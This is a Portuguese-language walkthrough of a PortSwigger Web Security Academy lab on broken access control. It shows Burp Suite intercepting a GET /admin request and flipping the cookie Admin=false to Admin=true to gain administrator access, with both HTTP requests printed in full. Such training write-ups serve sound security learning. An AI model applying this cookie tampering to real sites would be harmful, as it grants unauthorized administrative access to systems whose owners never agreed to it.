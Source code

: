 - #### [Burp Suite](https://portswigger.net/burp) :
    - Utilizaremos o `Burp Suite` para interceptar as requisições e analisar o que está sendo enviado para o back-end.

---

## **• User role controlled by request parameter.**

O objetivo desse laboratório é explorar uma vulnerabilidade no controle de acesso que permite que um usuário comum acesse uma página de administrador, fazendo assim uma escalação vertical de privilégios.

Ao logar com as credenciais `wiener:peter` e tentar acessar o caminho `/admin`, o site nos retorna um erro pois o usuário não tem permissão para acessar essa página.

![admin](parameter_admin.png)

Então, através do **Intercpt** do  `Burp Suite`, iremos interceptar a requisição que feita ao acessar a pagina `/admin` e ver o que está sendo enviado para o back-end.

```http

GET /admin HTTP/1.1
Host: 0a8800e4030a2cf2c05059f500dd0038.web-security-academy.net
Cookie: session=JWOrFphF2U7LViG0pHtqOfS1Xq1r4zMo; Admin=false
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

<div class="page"/>

Na requisição interceptada, podemos ver que existe um cookie chamado `Admin` com o valor `false`, então, iremos alterar o valor para `true` e deixar a requisição passar.

```http

GET /admin HTTP/1.1
Host: 0a8800e4030a2cf2c05059f500dd0038.web-security-academy.net
Cookie: session=JWOrFphF2U7LViG0pHtqOfS1Xq1r4zMo; Admin=true
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```